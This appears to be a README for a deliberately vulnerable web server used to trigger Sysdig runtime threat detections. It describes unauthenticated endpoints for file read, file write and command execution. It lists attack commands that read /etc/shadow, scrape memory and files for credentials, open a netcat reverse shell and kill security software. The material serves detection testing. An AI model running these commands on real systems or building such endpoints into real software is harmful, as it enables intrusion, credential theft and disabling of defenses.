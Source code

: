 # Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

```bash
export WEBSERVERIP=192.168.1.15
```

### Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)

**Sysdig Event:** Reconnaissance attempt to find SUID binaries
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'
```
**Sysdig Event:** Dump memory for credentials
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'
```
**Sysdig Event:** Find AWS Credentials
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'
```
**Sysdig Event:** Netcat Remote Code Execution in Contianer
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'
```

**Sysdig Event:** Tampering with Security Software in Container
**Command:**
```
curl -X POST http://$WEBSERVERIP/exec -d 'command=pkill aliyun-service'
```

### Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)

**Sysdig Event:** Read sensitive file untrusted 
**Command:**
```
curl http://$WEBSERVERIP/etc/shadow
```